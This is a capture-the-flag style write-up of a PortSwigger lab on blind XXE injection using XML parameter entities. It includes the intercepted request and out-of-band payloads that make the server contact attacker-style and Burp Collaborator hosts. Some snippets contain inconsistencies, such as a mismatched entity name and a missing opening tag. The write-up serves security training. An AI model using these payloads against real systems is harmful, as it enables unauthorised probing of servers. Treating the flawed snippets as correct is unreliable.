 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c5a92d04-f21e-4e32-b91a-f7e6893f7f0e)

## Overview :

 **Sometimes, XXE attacks using regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to **use XML parameter entities instead**. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Solution :


Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=gwBsRlQTEvY287RWKXKNzyrlafd6MhsP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we will declare a DOCTYPE eith parameterized entitites (**%**) which contains the url of our collaborator server -`<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %xxe; ]>` & in that we can reference the parameterized entitiy using - `%ext;`

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#basic-blind-xxe

**Payload -**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://sd9y3po3qry9jo5vf4684x8de4ku8j.oastify.com"> %xxe; ]> 
 <productId>% 1</productId>
 <storeId>1</storeId>
</stockCheck>
```


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/62ac4c21-2258-4736-a8e8-519399b87b8e)

In the response it says that - `XML parsing error` but it means that the xml parser indeed parsed the xml code and made an outbound request to our collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e7d2d8f7-c3fe-416b-82a4-102e382a30a9)

And we've solved the lab !

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9cd32a23-285d-4267-9cfd-64c3959a5f99)















